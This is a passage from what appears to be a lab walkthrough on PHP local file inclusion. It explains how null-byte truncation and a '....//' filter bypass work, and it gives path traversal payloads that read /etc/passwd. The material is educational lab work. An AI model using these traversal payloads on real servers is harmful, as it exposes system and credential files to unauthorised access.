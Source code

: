 By adding the Null Byte at the end of the payload, we tell the  `include` function to ignore anything after the null byte which may look like:

`include("languages/../../../../../etc/passwd%00").".php");` which equivalent to → `include("languages/../../../../../etc/passwd");`

**NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.**

**LAB4**
```
# Doesn't work
../../../etc/passwd # will not work

# Worked because of null byte %00
../../../etc/passwd%00 

```

**LAB5**  
If we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the ../ with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`

Why This Works: 
![lfi](./media/5-lfi-lab5.png)



**LAB3**   
reading `/etc/passwd` using nullbyte method
